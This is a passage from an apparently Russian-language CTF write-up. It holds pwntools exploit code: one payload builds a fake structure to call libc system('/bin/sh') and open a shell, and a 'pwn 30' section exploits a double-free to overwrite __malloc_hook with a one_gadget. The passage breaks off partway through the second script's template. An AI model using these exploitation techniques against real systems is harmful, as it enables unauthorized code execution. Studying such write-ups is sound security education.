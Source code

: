 ```py
pl = p64(0x4040d0) + p64(0xdead)
pl += p64(0x8000) + p64(0)
pl += p64(0) + p64(0)
pl += p64(0) + p64(0)
pl += p64(0) + p64(next(libc.search(b'/bin/sh\x00')))
pl += p64(0) + p64(0)
pl += p64(0) + p64(0)
pl += p64(0) + p64(libc.address + 0x7f2eaa9b0680 - 0x00007f2eaa600000)
pl += p64(0) + p64(0)
pl += p64(0) + p64(0x4040f0)
pl += p64(0xffffffffffffffff) + p64(0)
pl += p64(0x404100) + p64(0)
pl += p64(0) + p64(0)
pl += p64(0) + p64(0)
pl += p64(0) + p64(libc.address + (0x3AC360))
pl += p64(libc.sym.system)
pl += p64(libc.sym.system)

pause()
write(pl)
pause()
go()

io.interactive()
```

### pwn 30

В приложении есть уязвимость `2free`. В результате можно получить контроль над указателем в одном из чанков и ликнуть адрес либсы. Затем с помощью того же указателя можно перезаписать `__malloc_hook` на `one_gadget` и выполнить `/bin/sh`

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 10.10.23.10 --port 2228 diary
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('diary')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '10.10.23.10'
port = int(args.PORT or 2228)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process(['./ld-2.31.so', exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

```